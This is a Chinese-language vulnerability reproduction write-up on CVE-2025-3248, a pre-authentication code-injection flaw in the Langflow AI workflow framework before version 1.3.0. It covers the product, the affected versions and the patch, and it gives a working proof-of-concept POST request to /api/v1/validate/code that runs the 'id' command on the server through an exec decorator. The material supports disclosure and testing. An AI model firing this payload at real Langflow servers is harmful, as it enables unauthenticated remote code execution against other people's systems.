 **漏洞介绍**



![图片](Langflow%E6%A1%86%E6%9E%B6%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9ECVE-2025-3248.assets/640.png)



Langflow是Langflow开源的一个用于构建多代理和 RAG 应用程序的可视化框架。‌是一个面向开发者的低代码工具，**专注于多智能体人工智能、提示工程和检索增强生成（****RAG****）应用的开发**。它能够帮助开发者轻松构建强大的AI智能体和工作流，通过可视化方式搭建AI应用，通过拖放操作创建复杂的AI工作流，从而降低开发门槛，减少编写样板代码的工作量，使开发者能够更多地专注于创新‌。

Langflow 1.3.0之前版本存在安全漏洞，该漏洞源于/api/v1/validate/code端点存在代码注入漏洞，可能导致远程未经验证的攻击者执行任意代码。

注：2025年4月7日，Langflow AI 发布了补丁，修复了身份认证绕过漏洞。



![Image](Langflow%E6%A1%86%E6%9E%B6%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9ECVE-2025-3248.assets/640-1745719765938-1.png)



**0x02影响版本**



langflow<1.3.0

![图片](Langflow%E6%A1%86%E6%9E%B6%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9ECVE-2025-3248.assets/640-1745719765938-2.png)

![Image](Langflow%E6%A1%86%E6%9E%B6%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9ECVE-2025-3248.assets/640-1745719765938-1.png)



**0x03漏洞复现**

1.访问漏洞环境

![图片](Langflow%E6%A1%86%E6%9E%B6%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9ECVE-2025-3248.assets/640-1745719765938-3.png)

2.对漏洞进行复现

 **POC** 

漏洞复现

```yaml
POST /api/v1/validate/code HTTP/1.1
Host: 127.0.0.1
Content-Type: application/json
Content-Length: 125

{"code": "@exec('raise Exception(__import__(\"subprocess\").check_output([\"id\"]))')\ndef foo():\n  pass"}
```



   执行命令，通过响应判断漏洞存在。



![图片](Langflow%E6%A1%86%E6%9E%B6%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9ECVE-2025-3248.assets/640-1745719765938-4.png)